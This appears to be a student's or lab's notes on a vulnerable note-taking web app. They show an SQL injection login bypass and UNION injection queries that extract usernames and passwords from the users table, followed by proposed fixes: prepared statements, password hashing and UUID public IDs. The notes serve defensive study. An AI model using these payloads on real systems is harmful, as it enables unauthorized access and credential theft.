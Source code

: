 # General notes
We can log in with
```sql
' or 1=1;--
```

We can get admin credentials when importing notes in the following way.
```sql
0 union select id, username, (SELECT strftime('%Y-%m-%d %H:%M:%S', datetime('now'))), username, 100000 from users
order by id asc;
0 union select id, username, (SELECT strftime('%Y-%m-%d %H:%M:%S', datetime('now'))), password, 100000 from users
order by id asc;
```

We can secure against injection using prepared statements, e.g.
```python
c.execute("SELECT * FROM users WHERE username = ? AND password = ?;", [username, password])
```




# Patches we could implement?

## Password is plaintext
There exist's packages, that can generate hash for us, and make it more secure by that.
for example there exsists this package, that has two functions for this:
```python
from werkzeug.security import generate_password_hash, check_password_hash
```

## The public id of the user's are to predictable.
The user can easily bruteforce the id's through. instead we should use UUID:
```python
import uuid
publicID = str(uuid.uuid4())
```

